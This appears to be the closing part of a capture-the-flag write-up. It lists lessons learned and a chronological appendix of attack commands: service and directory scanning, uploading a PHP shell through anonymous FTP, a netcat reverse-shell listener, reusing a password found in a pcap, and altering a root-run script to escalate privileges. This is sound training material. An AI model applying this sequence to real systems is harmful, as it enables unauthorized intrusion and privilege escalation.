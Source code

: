 
## Lessons learned

* Publicly writable services (anonymous FTP) + webserver = high risk if uploads are accessible by the web.
* Artifacts like pcap files can contain sensitive data; always inspect such files.
* Privilege escalation often comes from misconfigured permissions and root-run scripts that interact with user-controllable data.
* In CTFs, always enumerate services, search for writable locations, and inspect artifacts for credentials.

---

## Appendix — Key commands (chronological)

```bash
# Recon
nmap -sV 10.10.226.32
gobuster dir -u http://10.10.226.32 -w /usr/share/wordlists/dirb/common.txt -t 5

# FTP (anonymous)
ftp 10.10.226.32
# put shell.php into ftp directory

# Netcat listener
nc -lnvp 4444

# On target (reverse shell)
python3 -c "import pty; pty.spawn('/bin/bash')"

# examine incidents
ls -la /incidents
# copy suspicious.pcapng to attacker and analyze with Wireshark / tshark

# privilege escalation
su lennie        # password discovered from pcap
cat /home/lennie/scripts/planner.sh
cat /etc/print.sh
# modify /etc/print.sh in lab to copy /root/* -> /home/lennie and set perms
# then retrieve flags
cat /home/lennie/user.txt
cat /home/lennie/root.txt
```
